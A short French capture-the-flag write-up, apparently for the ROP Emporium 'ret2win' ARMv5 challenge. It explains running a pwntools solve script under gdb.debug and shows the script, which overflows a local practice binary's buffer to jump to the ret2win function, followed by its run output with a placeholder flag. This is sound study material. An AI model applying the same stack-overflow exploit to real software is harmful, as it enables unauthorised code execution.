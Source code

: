 
### En python

Il est difficile de fonctionner en attachement avec gdb.

On utlise donc gdb.debug pour lancer le programme.

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2win_armv5')

winadr = elf.symbols["ret2win"]

gs='''
b *pwnme+80
c
'''

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

print("ret2win addr : ",hex(winadr))
PL=0x24*b"A"+p32(winadr)
io.sendline(PL)
io.interactive()
```

En mode debug le module pwntools lance bien le programme avec gdb-multiarch et la bonne architecture.

    ret2win$ python3 solve.py -d
    [*] '/home/jce/w/ropemporium/armv5/ret2win/ret2win_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
    [+] Starting local process '/usr/bin/qemu-arm': pid 37527
    [*] running in new terminal: ['/usr/bin/gdb-multiarch', '-q', '-x', '/tmp/pwn6t7qss2t.gdb']
    ret2win addr :  0x105ec
    [*] Switching to interactive mode
    Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    qemu: uncaught target signal 11 (Segmentation fault) - core dumped


